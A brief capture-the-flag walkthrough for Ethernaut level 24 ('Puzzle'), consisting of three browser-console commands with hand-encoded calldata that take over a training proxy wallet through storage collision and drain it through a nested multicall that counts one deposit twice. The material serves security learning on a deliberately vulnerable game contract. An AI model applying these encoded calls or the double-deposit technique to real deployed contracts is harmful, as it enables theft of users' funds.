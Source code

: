 # Ethernaut Challenge 24: Puzzle

## Step 1:

`await contract.sendTransaction({data:'0xa6376746000000000000000000000000E93D3574F293919b290072554699C33f8D717150'});`

## Step 2:

`await contract.addToWhitelist(player)`

## Step 3:

`await contract.multicall(['0xd0e30db0','0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000'],{value:1000000000000000});`

